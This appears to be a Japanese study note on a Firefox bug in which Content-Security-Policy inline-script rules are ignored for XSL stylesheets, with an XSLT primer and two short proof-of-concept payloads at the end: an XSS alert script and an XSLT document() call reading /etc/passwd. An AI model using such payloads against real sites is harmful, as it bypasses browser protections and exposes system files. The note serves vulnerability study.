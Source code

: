 # Content-Security-Policy inline script execution is bypassed on XSL pages

XSLのページでは、CSPの inline script ルールが無視される問題。

https://bugzilla.mozilla.org/show_bug.cgi?id=1597645



XMLファイルがCSPとともに提供され、XMLファイルにXSLスタイルシートが含まれている場合、
コンテンツセキュリティポリシーはXSLスタイルシートのコンテンツには適用されません。

たとえば、XSLシートにJavaScriptが含まれている場合、XMLドキュメントに適用されているコンテンツセキュリティポリシーの制限はすべて無視されます。

XSL (XSLT)は、XMLデータを表示するために必要である
「XMLのデータの構造を、（Webブラウザなどの）フォーマッタが受け付けるオブジェクトへと、構造変換する処理」のみを抽出した独立した規格。
（要するにXMLをブラウザで表示するためのモジュール？）


XSLTでは、スタイルシート自体をXMLのタグを使って書く。
また、XSLTの名前空間に属する要素を XSLT の命令として使用する。

XSLTの名前空間に属する属性の一例が以下

```
xsl:stylesheet
xsl:template
xsl:apply-templates
xsl::value-of
```


`xsl:stylesheet`
```xml
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" >
  ……
</xsl:stylesheet>
```

## PoC 例

XSS
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <script>alert(123)</script>
  </xsl:template>
</xsl:stylesheet>
```

LFI
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```
